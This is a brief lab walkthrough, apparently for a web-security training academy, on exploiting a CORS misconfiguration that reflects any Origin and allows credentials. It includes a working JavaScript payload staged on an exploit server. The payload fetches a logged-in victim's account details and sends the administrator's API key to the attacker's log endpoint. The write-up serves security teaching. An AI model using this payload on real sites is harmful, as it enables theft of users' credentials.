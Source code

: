 # CORS

## CORS vulnerability with basic origin reflection
After logging in, the application includes an API key in the response to /accountdetails page. 

Notice that after logging in the response includes the header `Access-Control-Allow-Credentials: true` indicating the web server supports CORS

Modifying the request with the header `Origin: example.com` the request includes the header `Access-Control-Allow-Origin: example.com`

Stage this in the exploit server 
```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```
The XMLHttpRequest from the malicious domain is possible because CORS is enabled. Set withCredentials=true to include the API Key in the response.
The reqListener takes the response and appends it to the log.
Then we check the log to find the administrator's API key